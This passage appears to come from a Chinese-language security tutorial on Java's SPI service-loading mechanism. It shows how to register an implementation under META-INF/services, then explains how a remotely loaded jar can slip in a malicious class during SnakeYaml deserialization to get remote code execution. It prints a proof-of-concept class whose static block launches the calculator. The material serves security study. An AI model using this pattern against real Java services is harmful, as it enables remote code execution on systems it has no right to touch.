 ```
```

这里我们分别用两种方式去加载对应的类

在resources下新建一个META-INF/services文件夹，里面放一个写着实现类的，名字是SPI加载的接口的全限定名的文件

![image-20221124210155937](images/1.png)

运行结果

![image-20221124210336104](images/2.png)

可以看到，这里加载了SpiImpl类，调用了静态代码块，两次调用了execute（分别对应两种方法）

## SPI安全问题

既然SPI可以去加载指定的类，那就存在一定的安全问题，就拿SnakeYaml举例，找一个存在的接口，远程加载的jar包中有一个实现了这个接口的恶意类，通过SPI机制加载了jar包的恶意类，造成了RCE

恶意类

```
package com.DawnT0wn;

import java.io.IOException;

public class SPICalc implements SPIService{
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    public void execute(){}
}
```

